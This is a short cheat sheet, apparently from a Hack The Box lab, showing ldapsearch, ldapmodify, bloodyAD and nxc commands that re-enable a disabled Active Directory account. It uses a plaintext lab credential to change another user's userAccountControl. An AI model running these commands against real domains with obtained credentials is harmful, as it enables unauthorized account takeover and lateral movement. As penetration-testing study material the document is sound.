 

---

# Enable `STATUS_ACCOUNT_DISABLED` users.

## ldapmodify
1. **Find the DN of the user** (Distinguished Name):
```
ldapsearch -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -b "DC=PUPPY,DC=HTB" "(sAMAccountName=jamie)"

dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
```
2. **Create an LDIF file** (e.g., `enable.ldif`):
```sh
dn: CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
#512 → enabled account , 514 → disabled account
```
3. **Apply the LDIF using `ldapmodify`**:
```sh
ldapmodify -x -H ldap://10.10.11.70 -D 'levi.james@PUPPY.HTB' -w 'KingofAkron2025!' -f enable.ldif
```


## bloodyAD 
```sh
bloodyAD -u 'levi.james' -p 'KingofAkron2025!' -d 'PUPPY.HTB' --target-user 'JAMIE WILLIAMSON' --enable
```

## nxc
```sh
nxc ldap 10.10.11.70 -d PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --modify "CN=JAMIE WILLIAMSON,OU=Users,DC=PUPPY,DC=HTB" userAccountControl 512
```

---
